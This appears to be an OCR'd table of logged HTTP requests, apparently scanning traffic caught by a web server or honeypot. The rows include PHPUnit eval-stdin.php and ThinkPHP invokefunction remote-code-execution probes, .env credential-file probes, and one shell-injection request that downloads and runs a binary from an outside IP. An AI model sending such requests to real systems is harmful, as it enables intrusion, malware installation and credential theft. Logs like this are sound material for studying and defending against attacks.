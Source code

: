 |  91 |                     3 | GET /tests/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  92 |                     3 | GET /test/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  93 |                     3 | GET /testing/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  94 |                     3 | GET /portal/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  95 |                     3 | GET /backup/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  96 |                     3 | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://157.245.200.182/Binarys/Nyx4r.arm;chmod+777+/tmp/Nyx4r.arm;sh+/tmp/Nyx4r.arm arm4.jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  97 |                     3 | GET /admin/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  98 |                     3 | GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|  99 |                     3 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                      |